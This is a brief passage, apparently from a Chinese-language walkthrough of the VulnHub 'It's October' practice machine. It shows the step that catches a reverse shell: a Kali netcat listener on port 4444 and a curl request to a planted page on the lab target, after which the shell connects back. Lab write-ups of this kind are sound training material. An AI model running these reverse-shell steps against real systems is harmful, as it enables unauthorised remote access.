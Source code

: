 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/16.png)

kali 监听
```bash
nc -lvvp 4444
```

使用 curl 调用 shell
```bash
curl -vv http://192.168.1.249/test
```

成功回弹 shell
